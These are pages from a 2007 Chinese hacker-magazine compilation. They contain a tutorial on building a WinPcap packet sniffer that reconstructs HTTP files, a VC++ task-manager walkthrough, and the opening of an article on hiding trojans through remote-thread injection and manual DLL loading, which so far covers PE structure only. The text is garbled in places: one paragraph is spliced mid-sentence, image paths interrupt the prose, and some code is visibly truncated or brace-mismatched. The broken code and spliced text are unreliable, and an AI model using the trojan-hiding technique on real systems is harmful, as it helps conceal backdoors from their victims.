过滤器内容共包含4种：协议类型、IP地址、物理地址、端口号，在协议类型标签栏中，我们可以设置对网络层协议和传输层协议的选择，单击复选框选择需要过滤的协议，然后单击“添加”按钮；在物理地址标签栏中，我们可以设置对物理地址的过滤，注意，物理地址必须是如下格式“XX-XX-XX-XX-XX-XX”，否则无法正常编译，如图6所示。

该功能模块主要从事与用户的交互功能，在收到“接收数据包”消息后，该模块根据消息函数的参数在文档中找到相关的缓冲区，从中获得数据包的内存映像并解析，首先获得其中的物理地址、IP地址、端口号等信息，并智能分析协议类型，最后把这些信息输出到列表框中。当用户单击该列表项的时候，`CListView`以该数据包的内存地址为参数向`CTreeView`和`CDialogView`（对应下部的数据显示区）分别发送消息，通知他们解析该数据包内容，并在屏幕上显示（这里由于代码比较简单，而且多是在微软的MFC架构基础上添加的，阅读相对简单，就不做具体分析了，读者朋友自己看吧）。

下面是数据传输模块，数据传输模块主要负责在其它两个模块之间的数据中转，为什么要增设这个模块呢？因为抓取数据包后对数据包的处理过程应该尽量简略，以避免丢包现象，所以，与用户界面通讯的任务就交给这个模块完成。首先还是工作流程，如图8所示。

设置后单击“添加”按钮，IP地址是设置有关IP协议过滤的，端口号选项时设置端口过滤的，操作与物理地址过滤设置相同，不再赘述。在设置完成所有的过滤这个功能模块主要是负责数据抓取线程和用户界面线程之间的通讯，在确保抓取线程运行的基础上，顺次检验缓冲区数组中各个缓冲区是否已经抓取线程填充数据包内容，如果已经填充完毕，则通知用户界面解析该数据包，以2000个数据包为界限，每到2000个数据包，抓取程序自动停止等待，用户界面处理完毕再继续抓取，这其中的同步功能也由这个模块完成。配上一组代码说明：


www.hacker.com.cn 《黑客防线》2007 精华奉献本 上册 27

```cpp
bool IfThread2Start=false;

struct Parameter *P=NULL; // 注意：此处Parament应为Parameter

// 以上是全局变量，用于两个线程之间同步和线程参数传递

static int Schedule=0; // 这个变量表示当前传送的数据在数组中的位置

UINT TransmitThreadFunc(LPVOID P)

{

    while(!IfThread2Start) // 等待捕获线程开启

    {

        Sleep(40);

    }

    while(P!=NULL&&P->Stop==false) // 首先检验参数，是否结束线程或者暂停

    {

        while(P!=NULL&&P->Pause)

        {

            Sleep(100);

            if(P!=NULL&&P->Stop)

            {

                return(0);

            }

        }

        while(P!=NULL&&P->Buf[Schedule].Valid==false) // 等待数据有效（即等待捕获线程写数据）

        {

            Sleep(10);

            if(P!=NULL&&P->Stop)

            {

                return(0);

            }

        }

        CWnd *PWnd=(CWnd *)P;

        P->Buf[Schedule].Valid=false; // 标识数据已经被取走

        PWnd->SendMessage(WM_ADDLIST,Schedule); // 发送消息，通知重新绘制

        Schedule++;

        if(Schedule==2000) // 同步工作

        {

            Schedule=0;

        }

    }

    return(0);

}
```

最后是数据捕获模块，也是最重要的模块，此模块使用Winpcap而成，主要负责从网络上捕获数据包，并把数据包拷贝到相关缓冲区。给大家一张流程图，如图9所示。该模块主要负责网络上捕获数据包，它的功能相对简单，完成初始化并且编译过滤器后，即开始抓取包循环，抓取到数据包后，即把数据包整个拷贝到缓冲区相应块中，表示该块内存有效，然后继续抓取数据包，其他工作交给另外模块完成。下面是代码分析：



```cpp
void packet_handler(u_char *param, const struct pcap_header *header, const u_char *pkt_data) // 这个函数是Winpcap抓数据包后的回调函数

{

    static int i=0;

    if(P==NULL) // 判断退出

    {

        Exit(0);

    }

    while(P!=NULL&&P->Pause) // 判断为暂停情况

    {

        if(P!=NULL&&P->Stop) // 判断是否停止

        {

            ExitThread(0);

        }

        Sleep(10);

    }

    if(P!=NULL&&P->Stop) // 判断是否停止

    {

        ExitThread(0);

    }

    memcpy(&(P->Buf[i].header),header,sizeof(pcap_header)); // 拷贝捕获的数据包到缓冲区

    memcpy(P->Buf[i].Buf,pkt_data,header->len);

    P->Buf[i].Valid=true; // 表示数据有效

    i++;

    if(i==2000) // 同步

    {

        while(Schedule!=0)

        {

            Sleep(100);

        }

        i=0;

    }

}

UINT SnifferThreadFunc(LPVOID P) // 这个是抓数据包的主线程

{

    P=(Parameter *)P;

    IfThread2Start=true; // 初始化全局变量

    pcap_t *adhandle;

    char ErrBuf[PCAP_ERRBUF_SIZE];

    struct bpf_program fcode;

    ULONG NetMask;

    CWnd *PWnd=P->Parent;

    if ((adhandle= pcap_open_live(P->Dev->name,65536,1,1000,ErrBuf)) == NULL) // 打开Winpcap句柄

    {

        CString Tmp;

        Tmp.Format("Open Adapter :%s Error!",P->Dev->name);

        MessageBox(NULL,Tmp.GetBuffer(),"Error",MB_OK|MB_ICONERROR);

        PWnd->SendMessage(WM_WINPCAPWRONG,1); // 发送消息，通知该线程出错

        return -1;

    }

    if(pcap_datalink(adhandle) != DLT_EN10MB) // 判断是否工作在以太网下

    {

        MessageBox(NULL,"This Program only support Ethernet!","Error",MB_OK|MB_ICONERROR);

        PWnd->SendMessage(WM_WINPCAPWRONG,2);
```


```c
return -1;
}
if (P->Dev->addresses != NULL)
{
    NetMask = ((struct sockaddr_in *)(P->Dev->addresses->netmask))->sin_addr.s_un.s_addr;
}
else
{
    NetMask = 0xffffff;
}
if (pcap_compile(adhandle, &fcode, P->Filter, 1, NetMask) < 0) // 编译过滤器
{
    CString Err;
    Err.Format("Can't Compile Filter:%s!", P->Filter);
    // 此处原文似乎有截断或错误，后续逻辑
}
if (pcap_setfilter(adhandle, &fcode) < 0) // 设置过滤器
{
    MessageBox(NULL,"Can't Set Filter","Error",MB_OK|MB_ICONERROR);
    PWnd->SendMessage(WM_WINPCAPWRONG,4);
    return -1;
}
pcap_loop(adhandle,0,packet_handler,NULL); // 开始捕获数据包循环
return 0;
}
```

下面是一张三个模块间的总体关系图，如图10所示。下面是具体模块细节介绍，首先介绍数据包过程：在收到数据包的消息后，该模块首先获得数据包在缓冲区数组中的位置，并将指针转移相关位置，解析数据包的源地址和目的地址，然后检测数据包是否是一个IP包或者ARP包，如果不是，表示其属性为“02”，解析停止；如果是ARP包，继续解析其源地址和目的地址，并获得长度信息，解析至此。如果是数据包，则继续解析，首先分析其IP头中的字段，看数据包是否为ICMP或者UDP包，如果不是以上任意类，则获取长度信息，解析结束；如果是UDP包，则需要进一步解析。针对UDP包，本程序识别的协议类型包括SNMP、DNS、NetBIOS、BOOT，识别到这些信息以后，获取剩余长度信息，解析结束。针对TCP包，也需要进行端口号的操作，并根据端口号进一步判断其协议类型，本程序识别的协议类型包括HTTP、FTP、NetBIOS、SMTP、POP、TELNET、SSH、SOCKET，程序运行至此，如果不是HTTP，则获取剩余长度信息，解析结束；若是HTTP协议，则还需要判断该HTTP是否是从服务端传送数据的第一个数据包（除去建立连接的数据包），若是，则使用特殊颜色标识数据包在视图中对应的位置，以便还原。接着是TreeView的解析过程，该解析过程和ListView解析过程基本相同，只不过解析过程更加详细。其基本解析思想也是自底向上，逐层解析，在此把解析过程与ListView过程的区别的区别介绍，不再赘述。首先在解析ARP协议的时候，根据ARP包的结构获得数据包中的所有内容，并依次成树状结构中对应的节点，并在视图区显示。针对TCP、UDP、ICMP的解析也有类似过程，而针对HTTP数据段，则是以`0D0A`为界限，拆分其中的各条命令和响应消息，并一次以树节点的形式显示。由于TCP协议可能会根据MTU自动拆分数据包，以致有些HTTP包只是完全存放内容，并不包含任何HTTP控制字段，故在解析之前先要判断数据包是否含有控制信息，再进行解析。最后是解析数据包内存过程。该过程相对比较简单，在接收到解析数据的消息之后，首先从消息响应函数获得该数据包的内存地址，然后分别得到各个字节存放数值，并把数值输出，然后再把各个字节的数值转换成对应的ASCII码字符，并把这些字符也输出到界面上。以上三个过程虽然总体上比较复杂，但毕竟是基于

图10

`www.hacker.com.cn`

《黑客防线》2007 精华奉献本 上册

```c
char * GetData(Buffer* First,      /*链表头部*/
               char * CurPosition,  /*该数据包中重组数据的起始位置*/
               ULONG LenthInThisPacket, /*重组数据在该数据包中的长度*/
               int CurrentPosition      /*当前元素在链表中的位置*/
               ULONG TotalLength        /*数据总长度*/
               ) //这个函数的作用是重组整个数据文件
{
    ULONG DataGeted=0;
    char *RebuildData=new char [TotalLength];
    memcpy(RebuildData,CurPosition,LenthInThisPacket); //获得第一个数据包中的数据
    DataGeted+=LenthInThisPacket;
    int NextPacketPosition=CurrentPosition;
    while(DataGeted<TotalLength) //数据还没有完全获得
    {
        ULONG AddDataLenth=0;
        char * AddData=FindNextPacket(First,NextPacketPosition,NextPacketPosition,AddDataLenth); //找下一个数据包
        if(AddData!=NULL)
        {
            if(AddDataLenth+DataGeted<=TotalLength)
            {
                memcpy(RebuildData+DataGeted,AddData,AddDataLenth);
                //拷贝下一个数据包中的数据
                DataGeted+=AddDataLenth;
            }
            else
            {
                delete []RebuildData;
                return NULL;
            }
        }
    }
}
else
{
    delete []RebuildData;
    return NULL;
}
return RebuildData;
```

# 测试结果

经测试，本程序可以在以太网上顺利工作，并正确分析以太网上的各种数据包，此外，在重组HTTP文件方面，我们学校的一些校内网站发送的文件，几乎所有都可以成功成功还原，广域网上的一些网站，类似新浪、搜狐等的还原错误率也较低，而某些网站，尤其是一些与校园网络连接拓扑结构过于复杂或者链路质量较差的网络，因其过高的超时重传率造成大量错误TCP数据包，故而重组失误率较高。另外，测试机器必须安装`Winpcap3.1`，低版本`Winpcap`会存在网卡物理地址过滤无法成功编译的现象。

## 小结

总而言之，本文写得比较简略，但是台湾著名计算机专家侯杰说过：“源代码面前没有秘密！”源代码放到光盘里了，大家还有什么不明白的自己看代码就行了（顺便说一句，我的开发环境是`Windows XP SP2 + Visual Studio.net`），只要静下心来，相信没什么问题的，有什么问题欢迎大家发信和我讨论，祝大家都能开发出功能强大的为自己量身订做的Sniffer！

适合读者：程序员，编程爱好者
前置知识：C/C++基础

# 循序渐进 制作任务管理器

文/图 文思乐

`Ctrl+Alt+Del`这组热键应该是大家很熟悉的，它是常用Windows任务管理器。我们今天就来制作一个简单的任务管理器，它可以实现一次结束多个进程，新建进程，刷新进程等功能。
我的方法是：通过`Psapi.Dll`提供API函数`EnumProcesses`、`EnumProcessModules`和`GetModuleFileNameEx`来实现枚举进程，然后在列表控件显示出来（使用的方法和2005年2期上的《四种方法实现VC枚举当前进程》的第2种方法一样）。
先来看看它们的原型：

```c
BOOL EnumProcesses(DWORD *lpidProcess,
                   DWORD cb,
                   DWORD *CBnEEDED);
```

该函数的各个参数的定义如下：

- `lpIdProcess`：存放所有进程ID的数组。
- `cb`：`lpIdProcess`数组的大小，一般用`sizeof(lpIdProcess)`函数。
- `cbNeeded`：储存函数返回的字节数，`cbNeeded/sizeof(DWORD)`即就是进程数。

```c
DWORD GetModuleBaseName(
    HANDLE hProcess,
    HMODULE hModule,
    LPTSTR lpBaseName,
    DWORD nSize);
```

# 编程解析

> 栏目编辑 | socket | socket@hacker.com.cn

该函数的各参数的定义如下：

- `hProcess`：指定的进程的ID。
- `hModule`：指定进程对应的模块，可以由`EnumProcessModules`函数获得。
- `lpBaseName`：用于存放exe程序的名称。
- `nSize`：存放`lpBaseName`参数的长度。

该函数用于获取产生指定进程的exe程序。

```c
DWORD GetModuleFileNameEx(
    HANDLE hProcess,
    HMODULE hModule,
    LPTSTR lpFileName,
    DWORD nSize);
```

该函数的各参数定义如下：

- `hProcess`：指定进程ID。
- `hModule`：指定进程对应的模块，可以由`EnumProcessModules`函数获得。
- `nSize`：存放`hModule`参数的长度。

启动`VC++`，建立一个“Dialog Base”完成后把初始对话框中静态控件删掉，选中“确定”，把它修改为“刷新进程”。再增加两个Button分别为“结束任务”和“新建任务”。最后添加一个list control，选中后回车，修改属性`View`为`Report`，如果你只希望你的程序一个一个的结束进程的话，那你就把`Single Selection`前打上钩。如图1所示。


不过忘记了我们希望的是一次结束多个任务，这时对话框应该如图2所示。


按下`Ctrl+W`，利用Wizard为`IDC_PROCESS_LIST`（就是列表控件的标识）添加类型为`ListCtrl`的成员`m_ctrlProcess`，如图3所示。


在`C*Dlg.h`中（设置的工程名称）添加以下全局声明：

```c
// 获取所有进程
DWORD GetProcessIDs(DWORD* pdwBuffer, DWORD dwSize);
// 获取进程对应的路径
CString GetProcessPath(DWORD idProcess);
// 获取模块
CString GetProcessBaseModuleName(DWORD idProcess);
// 获取进程ID
DWORD GetProcessID(LPSTR lpszName, BOOL bUsePath, DWORD idStart);
// 结束进程
void TerminateProcess(DWORD id);
```

在`C*Dlg.cpp`中添加代码（具体看源文件），完成以上函数。

```c
#include "psapi.h"
#pragma comment(lib,"psapi")
```

Visual Studio中没有`"psapi.h"`和`"psapi.lib"`，把这两个文件copy到建立工程下，如图4所示。


```c
DWORD GetProcessIDs(DWORD* pdwBuffer, DWORD dwSize)
{
    // 获取进程列表
    DWORD cbNeeded = 0; // 循环
    if (!EnumProcesses(pdwBuffer, dwSize, &cbNeeded))
    {
        return(0);
    }
    return (cbNeeded / sizeof(DWORD));
}

CString GetProcessPath(DWORD idProcess)
{
    // 获取路径
    // 打开进程
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, idProcess);
    if( NULL != hProcess )
    {
        // ...
    }
    return (sPath);
}

// 获取进程名
CString GetProcessBaseModuleName(DWORD idProcess)
{
    // ...
    return (sName);
}

DWORD GetProcessID(LPSTR lpszName, BOOL bUsePath, DWORD idStart)
{
    // 获取进程列表
    DWORD idx = 0;
    DWORD aProcesses[1024];
    DWORD cProcesses = GetProcessIDs(aProcesses, sizeof(aProcesses));
    if( 0 != idStart )
    {
        // ...
    }
    // 搜索进程
    while( idx < cProcesses )
    {
        CString sName = bUsePath ? GetProcessPath(aProcesses[idx]) : GetProcessBaseModuleName(aProcesses[idx]);
        if( 0 == sName.CompareNoCase(lpszName ) )
        {
            return( aProcesses[idx] );
        }
        idx++;
    }
    return( 0 );
}

void TerminateProcess(DWORD id)
{
    HANDLE hProcess = ::OpenProcess( PROCESS_TERMINATE, FALSE, id );
    if( NULL != hProcess )
    {
        TerminateProcess(hProcess, 0 );
        CloseHandle(hProcess );
    }
}
```

在`C*Dlg.cpp`中的`OnInitDialog()`（对话框的初始函数）中添加如下代码：

```cpp
::SetWindowPos(GetSafeHwnd(), HWND_TOPMOST, 0, 0, 0, 0, SWP_NOMOVE | SWP_NOSIZE);
// 添加3个列
int ret = m_ctlProcesses.InsertColumn( 0, "进程名称", LVCFMT_RIGHT, 100, 0 );
m_ctlProcesses.InsertColumn( 1, "进程标识", LVCFMT_LEFT, 60, 1 );
m_ctlProcesses.InsertColumn( 2, "应用程序所在路径", LVCFMT_LEFT, 350, 2 );
// 设置列表控件背景色
m_ctlProcesses.SetBkColor(RGB(200,150,250));
m_ctlProcesses.SetTextBkColor(RGB(200,150,250));
Refresh();
// 调用AnimateWindow 完成界面方法的初始化
h=LoadLibrary("user32.dll");
p=(LPFNDLLFUNC1)GetProcAddress(h,"AnimateWindow");
p(m_hWnd,500,AW_VER_POSITIVE|AW_SLIDE);
FreeLibrary(h);
```

这其中使用到的列表控件的成员函数是：

`InsertColumn(int nCol,LPCTSTR lpszColumnHeading,int nFormat, int nWidth,int nSubItem);` 它用来往控件里面插入列。`nCol`为列的位置，从0开始。`lpszColumnHeading`为列名，`nFormat`为对齐方式，`nWidth`为宽度，`nSubItem`为分配给列的索引。`SetBkColor(RGB(200,150,250));`和`SetTextBkColor(RGB(200,150,250));`分别是显示的背景和文字颜色。完成后回到类，在`CTtaskDlg`类上右键添加一个函数`void CTtaskDlg::Refresh()`，如图5所示。


```c
void CTtaskDlg::Refresh()
{
    m_ctlProcesses.DeleteAllItems();
    // 以下是提升权限的代码
    DWORD aProcesses[1024];
    // 获取所有进程
    DWORD cProcesses = GetProcessIDs(aProcesses, sizeof(aProcesses));
    DWORD idxList = 0;
    for( DWORD idx = 0; idx < cProcesses; idx++ )
    {
        CString sName = GetProcessBaseModuleName(aProcesses[idx]);
        if( sName.IsEmpty() )
        {
            continue;
        }
        CString sPID;
        sPID.Format("%d", aProcesses[idx]);
        // 列表添加一项
        m_ctlProcesses.InsertItem(idxList, sName);
        // 设置进程id
        m_ctlProcesses.SetText(idxList, 1, sPID);
        // 设置进程路径
        m_ctlProcesses.SetText(idxList, 2, GetProcessPath(aProcesses[idx]));
        m_ctlProcesses.SetItemData(idxList, aProcesses[idx]);
        idxList++;
    }
}
```

关闭权限，不然你就关闭不了计算机了。如图7所示。


回到对话框编辑，双击“结束任务”按钮添加如下代码：

```c
void CTtaskDlg::OnStop()
{
    // TODO: Add your control ...
    // 以下是提升权限的代码
    POSITION pos = m_ctlProcesses.GetFirstSelectedItem(); // 没有选择进程
    char strId[20];
    if (pos == NULL)
    {
        AfxMessageBox("请选择你要结束的进程!", MB_ICONINFORMATION);
        return;
    }
    while (pos!=NULL)
    {
        int nItem = m_ctlProcesses.GetNextSelectedItem(pos);
        m_ctlProcesses.GetItemText(nItem,1,strId,20);
        TerminateProcess(atol(strId));
        if (pos==NULL)
            break;
    }
    ::Sleep(300);
    Refresh();
}
```

回到对话框编辑，双击“新建任务”按钮添加如下代码：

```c
void CTtaskDlg::OnNew()
{
    // TODO: Add your control ...
    // 新建一个线程，创建文件对话框
    CString strFileName;
    CFileDialog fd(TRUE,NULL,NULL,
    OFN_HIDEREADONLY|OFN_OVERWRITEPROMPT,
    "Executable files (*.exe)|*.exe|All files (*.*)|*.* ");
    if(fd.DoModal()==IDOK)
    {
        // 获取子进程路径名
        strFileName=fd.GetPathName();

        char * buf;                  // 子进程窗口参数
        STARTUPINFO infoStart;       // 子进程信息
        ......
        // 创建子进程
        CreateProcess (NULL, buf, NULL, NULL, FALSE,
        NORMAL_PRIORITY_CLASS,
        NULL,NULL,&infoStart, &infoProcess);
        ::Sleep(1000);    // 刷新进程显示列表
        Refresh();
    }
}
```

上面用到了 `CFileDialog` 类，它的构造函数如下：

```c
CFileDialog(BOOL bOpenDialog,LPCTSTR
lpszDefExt=NULL,LPCTSTR lpszFileName=NULL,DWORD
dwFlags=OFN_HIDEREADONLY|OFN_OVERWRITEPROMPT,
LPCTSTR lpszFilter=NULL,CWnd pParent=NULL);
```

各参数的意义如下：

- `bOpenDialog`：为 `TRUE` 时显示打开对话框，为 `FALSE` 时显示保存对话框。
- `lpszDefExt`：指定默认的文件扩展名。
- `lpszFileName`：指定默认的文件名。
- `dwFlags`：指明特定的风格。
- `lpszFilter`：最重要的一个参数，指明可以选择的文件类型和相应扩展名。格式如下：

`"Executable files (*.exe)|*.exe|All files (*.*)|*.*||"` 文件的类型说明和扩展名用 `|` 分隔开，每个文件用 `|` 分隔开，末尾用 `||`。


适合读者：程序设计者，木马编写爱好者

前置知识：C++基础，Windows下编程经验

# 让你的木马藏得更深——线程注射技术新发展（上）

文/图 BlackBeast

## 简介

2005年《黑客防线》上连续刊登若干有关线程注射隐藏自身的木马编写技术，对这些技术的讨论主要集中在如何将线程函数代码写入注入进程并正确创建远程线程上，创建远程线程时主要有两个难点：

1. 如果直接将代码写入注入进程，写入代码中的所有 API 必须使用 `GetProcAddress` 获得函数指针间接调用，必要时还需要 `LoadLibrary`，代码编写复杂且枯燥无味。
2. 如果采用在注入进程加载 DLL 的方式，通过加载过程中 `DllMain` 的调用来完成执行目的代码的操作，在 `DllMain` 中无法进行开启新线程的操作，而且该远程线程必须依靠该 DLL 的存在，这就增加了被人发现的可能性。

前几天在网上闲逛，看到了一个牛人写的开启远程线程的 Demo，完美地解决了上面两个问题，深感佩服。于是，在学习的过程中就有了这篇笔记，现与大家同享。在此我要感谢局部变量先生对本文的帮助。

本文讲解的技术，很大程度上降低了线程插入式后门的编写难度，让编写大规模复杂化的该类后门成为可能，此外，该技术也在一定程度上提高了后门的隐蔽性。

## 程序原理

大家在编写程序的过程中，经常要加载各种 DLL，当一个 DLL 被加载到某进程的地址空间后，其所有的函数就可以被此进程直接调用。这是因为系统在加载 DLL 模块时针对本地进程具体情况，对 DLL 文件的函数调用做了相应处理。所以只要把远程线程函数写入某 DLL 中，然后替系统完成目标进程加载该 DLL 的过程，就可以轻松编写远程线程函数代码，又不用带着以前的 DLL 小尾巴了。

为了替系统完成重定位函数地址和重新加载隐式 DLL 模块，你起码需要了解 PE 文件的重定位段和导入段，而为了获得远程线程函数地址，你还需要了解导出段的相关知识。以下将详细介绍。

## 前置基础知识

要想代替系统手动完成加载 DLL 的工作，必须对 DLL 的结构有一定了解。

下面我们来介绍 PE 文件的结构，PE 文件格式被组织为一个线性的数据流，它由一个 MS-DOS 头部开始，接着是一个实模式的程序残余和一个 PE 文件标志，接着是 PE 文件头，可选头部、所有的段头部。段头部之后跟随着所有的段实体。文件的结束区域部分，主要是一些混杂的信息，包括重分配信息、符号表信息、行号信息以及字串表数据。从表中可以看出 PE 文件的大体结构。

| 结构 |
| --- |
| MS-DOS 头部 |
| MS-DOS 实模式残余程序 |
| PE 文件标志 |
| PE 文件头 |
| PE 文件可选头部 |
| `.text` 段头部 |
| `.bss` 段头部 |
| `.rdata` 段头部 |
| ………… |
| `.debug` 段头部 |
| `.text` 段 |
| `.bss` 段 |
| `.rdata` 段 |
| ………… |
| `.debug` 段头部 |

### MS-DOS 头部

MS-DOS 头部最重要的一个成员变量就是 `e_lfanew`，这个变量是一个偏移量值，通过它我们可以找到 PE 头结构的地址。上表中的 PE 文件标志，PE 文件头、PE 文件可选头部就属于该结构，在 Windows 中，该结构声明如下：

```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

### PE 文件头

PE 文件头的信息基本是一些高级信息，这些信息是操作系统或者应用程序决定如何处理这个文件的依据。例如，第一个域是用来表示这个可执行文件被构建的目标机器种类，比如 DEC(R)、Alpha、MIPS R4000、Intel(R) x86 这些处理器。在读取该 PE 文件的其他数据之前，系统可以利用这个信息来决定如何处理它们。

PE 文件头结构中另一个有用的入口是 `NumberOfSections` 域，它表示该 PE 文件共有多少个段头部和多少个段实体。这些段头部和段实体是在文件中连续线性排列的。

### PE 文件可选头

PE 文件可选头部虽然称作“可选”，但事实上，它是必须的。该结构分成标准域和 NT 附加域两个部分，其中标准域是和 UNIX 可执行文件的 COFF 格式所公共的部分，而 NT 附加域主要是一些 Windows 系统装载 DLL 所需的版本号，内存对齐长度等相应信息。

在 NT 附加域中最重要的一个 `IMAGE_DATA_DIRECTORY` 结构对象的数组，每个数组成员指定了对应段头部的尺寸和相对虚拟地址，PE 文件的段头部都与该数组有着固定的一一对应关系，如果需要定位一个特定的段头部，就需要从可选头部中的 `IMAGE_DATA_DIRECTORY` 数组中找到对应该段的数组元素，并从该元素中获得所需段头部的偏移地址，然后使用该偏移量定位段头部，进而就可以访问该段中数据了。

`IMAGE_DATA_DIRECTORY` 数组共有 16 项，目前使用 11 项。接下来是我们重点介绍的对象：本程序相关的三个段，重定位段、导出段、导入段。

## 重定位段

众所周知，将函数的调用编译成汇编语言就是如下格式：

```text
function (7);
0042801E push    7
00428020 call    function (415F14h)
```

而由于同一个 DLL 在不同的进程中加载的基地址不同，所以，同一个函数在不同进程中的入口地址也不同，重定位表就是为了解决这个问题而设计的。在 PE 文件可选头部有一个 `ImageBase` 变量是用来标识该 DLL 加载到进程地址空间中的首选基地址，该 DLL 中的函数偏移量是根据该地址计算得出的（`ImageBase + 函数在 DLL 中的相对偏移量`），在加载过程中，如果无法将该 DLL 顺利加载到 `ImageBase` 处，则需要修改所有函数地址，也就是上例中的 `Call function(415F14h)`。如果该 DLL 的 `ImageBase = 4000h`，而实际载入进程后，基地址为 `5000h`，那么 `415F14h` 就必须改为 `416F14h`。发生了这种情况，所有的函数入口地址都需要修改，重定位表的作用就是确定各个函数入口地址保存在内存中的位置，通俗说就是确定哪里需要更改。

重定位表头结构如下：

```c
typedef struct _IMAGE_BASE_RELOCATION {
DWORD  VirtualAddress;
DWORD  SizeOfBlock;
} IMAGE_BASE_RELOCATION;
```

实际上，每个重定位表项除了这个表头外后面还跟着若干数据项，具体项数由 `SizeOfBlock` 标示，每个数据项就是一个 `USHORT`。其中，高 4 位字节用来标记该数据项是否有效，如高 4 位为 0，则为无效数据，仅用来对齐，为 3 则表示有效的数据项，低 12 位用来存储偏移地址。为什么只需要 12 位存储偏移地址呢？众所周知，进程的地址空间是 4GB，也就是一共需要 32 位存储，而 Windows 基于段页式内存管理，每页是 4K，也就是 2^12，一个内存页中的全部需要更改的数据地址都包含在一个重定位表中，所以每个数据项只保存偏移地址。我们构建一个包含两个重定位表项的重定位表，第一个表项有 3 个数据项，包含一个无效数据项，第二个表项有 4 个数据项，如下：

**第一个重定位表项**

| 项目 | 内容 |
| --- | --- |
| 页地址 |  |
| 表项大小 |  |
| 数据项一 | `0x2d4`（有效） |
| 数据项二 | `0x859`（有效） |
| 数据项三 | `0xa56`（有效） |
| 数据项四 | `0x015`（无效） |

**第二个重定位表项**

| 项目 | 内容 |
| --- | --- |
| 页地址 |  |
| 表项大小 |  |
| 数据项一 | `0x2e4`（有效） |
| 数据项二 | `0x5f9`（有效） |
| 数据项三 | `0x675`（有效） |

## 导出段

下面介绍导出段，它包含了 DLL 的导出数据，主要是该 DLL 提供的供调用的相关信息。在 Windows 系统中这样定义导出段结构：

```c
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD   Characteristics;
    DWORD   TimeDateStamp;
    WORD    MajorVersion;
    WORD    MinorVersion;
    DWORD   Base;
    DWORD   NumberOfFunctions;
    DWORD   NumberOfNames;
    DWORD   AddressOfFunctions;
    DWORD   AddressOfNames;
    DWORD   AddressOfOrdinals;
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

导出目录中的 `Name` 标识了模块。`NumberOfFunctions` 和 `NumberOfNames` 表示模块中有导出的函数以及这些函数的名称。`AddressOfFunctions` 指向一个数组，该数组存储着全部导出函数的入口地址；`AddressOfNames` 指向另一个数组，该数组存储全部导出函数名。`AddressOfOrdinals` 也是一个数组，存储的是特定函数名。例如，假设在 `AddressOfNames` 的第 J 项找到了函数，则 `AddressOfOrdinals[J]` 就是该函数相对于 `Base` 的偏移。三个 `AddressOf...` 域是模块装载后，进程空间中的偏移量。一旦模块装载，要获得某数据在进程空间中的确切地址，只需对应的偏移量加上模块基地址。

## 导入段

